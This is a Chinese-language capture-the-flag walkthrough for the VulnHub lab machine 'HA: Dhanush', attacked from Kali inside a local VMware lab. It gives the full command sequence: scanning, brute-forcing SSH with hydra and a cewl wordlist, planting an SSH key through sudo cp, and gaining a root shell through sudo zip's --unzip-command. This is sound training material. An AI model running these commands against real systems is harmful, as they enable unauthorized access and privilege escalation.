 # HA：Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](./img/HA：Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](./img/HA：Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		#爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e nsr 192.168.253.141 ssh -s 65345 -f
```

![](./img/HA：Dhanush-03.png)

```
#username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](./img/HA：Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](./img/HA：Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](./img/HA：Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](./img/HA：Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](./img/HA：Dhanush-08.png)